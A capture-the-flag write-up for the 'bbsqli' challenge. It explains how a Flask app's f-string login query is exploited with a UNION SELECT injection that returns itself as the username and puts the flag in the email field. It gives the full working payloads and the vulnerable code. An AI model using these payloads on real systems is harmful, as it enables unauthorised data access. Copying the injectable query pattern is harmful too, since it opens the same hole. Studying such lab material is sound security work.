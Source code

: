 # bbsqli \[421 Points] (43 Solves)
```
SO Classic !

Author: xhalyl

http://45.129.40.107:9676/
```
---

**TL;DR** \
An SQL injection during login, however the username from the _**DB**_ is checked
against the username in the _**request**_, thus the SQLi has to return itself as
the **username**. The flag will be inside the **email**.

The final payload looks like this
```
" UNION SELECT users.username, flags.flag, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --
```
Register an account with it as the *name* and then login into it.

## Writeup

Attached is `bbsqli.zip`, [containing](bbsqli):
```
app.py

utils.py
static/
templates/

Dockerfile
requirements.txt
```
Inspecting [app.py](bbsqli/app.py) we see a few interesting lines:
```py
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
```
- It's a **flask** webserver
- It uses **sqlite3**
```py
def add_flag(flag):
    conn = get_db_connection()
    cursor = conn.cursor()
    cursor.execute('INSERT INTO flags (flag) VALUES (?)', (flag,))
    conn.commit()
    conn.close()
```
- The **flag** is stored in the `flags` table

Also, from the name - _bb**sqli**_ we can guess that the challenge is an **SQL
injection.** \
Let's search for some potentially vulnerable SQL. \
In the `login` function we find:
```py
cursor.execute(f'SELECT username,email,password FROM users WHERE username ="{username}"')
```
This means we can *easily* inject SQL! Right? Right..?

Well, this is partially true. Although we indeed can run "any" SQL, it follows a
`SELECT`, so we can't update/create data in the database.

*Just return the flag as the username/email, what's the problem?*

The app makes sure that the *username* from the **DB** matches the **requested** *username*
```py
if user and user['username'] == username and user['password'] == hash_password(password):
    session['username'] = user['username']
    session['email'] = user['email']
else:
    return render_template('login.html', error='Invalid username or password')
```

So for example something like
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
Wouldn't work, because the **requested** username is \
`" UNION SELECT flag AS username, '', '' FROM flags --` \
while the username from the **DB** would be something like \
`L3AK{a_flag_here}`

So the `if` condition would evaluate `false` and we would get an error page.

Another thing to notice here is that on a successful login, we will see
[templates/dashboard.html](bbsqli/templates/dashboard.html), which contains
```html
<h2>Welcome, {{ user }}!</h2>
<p>Email: {{ email }}</p>
```
Alright, so if we could set the *email* to the flag, and pass the `if` check, we
will get it! Great.

**Now, how do we pass the check?**

We need to have our username *equal* the SQL injection. We can create an account
with the name of the SQLi, but how would we return it? After all, we can't just
put it inside itself
```
" UNION SELECT '" UNION SELECT '', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --
```
Because, well, that's just recursive, as now we will have to put it into itself
once again, and like this for *eternity*.

Thankfully, SQL allows us to select a user using a pattern with the `WHERE LIKE` syntax.
For this we will have to take our original idea for an injection
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
And modify it. First, we want to select our user. For that let's add a *recognizable* comment

```
" /* findme */ UNION SELECT username, 'FLAG{TODO}', password FROM users WHERE username LIKE '%findme%' --
```
![`/dashboard` Welcoming us with `Email: FLAG{TODO}`](./images/partial_success.png)

Great!

Now we just need to get the flag from the flags table and supply it instead of
the email. For this we can use **JOIN**. Because there's only *one* flag, we can get it with `flags.id` being `1`

```sql
" /* findme */ UNION SELECT users.username, flags.flag AS email, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --
```

Here's the highlighted and formated query that will run on the server
```sql
SELECT username, email, password
    FROM users
    WHERE username ="" /* findme */
UNION
SELECT users.username, flags.flag AS email, users.password
    FROM users
    JOIN flags
        ON flags.id = 1
    WHERE users.username
    LIKE '%findme%' -- "
```

Alright, now we just visit `http://45.129.40.107:9676/register`, create an account with that name, and login!
Also, we probably should change `findme` to something a bit more *unique* to not find a different, existing, user
> [!NOTE]
> The SQLi happens during **login**, we register just so it's possible for us to **SELECT** it as the username during the SQLi.

![`/register` with the SQLi as the username](./images/final_register.png)

Login into the user

![`/login` with the same SQLi as the username](./images/final_login.png)

Success!

![`/dashboard` Welcoming us with `Email: L3ak{__V3RY_B4S1C_SQLI}`](./images/final_dashboard.png)

**Flag:** L3ak{__V3RY_B4S1C_SQLI}

> _**PS:**_ After the CTF I realized that we don't actually need a comment, as the content of `LIKE` already contains a string. So this would also work: `" UNION SELECT users.username, flags.flag, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --`
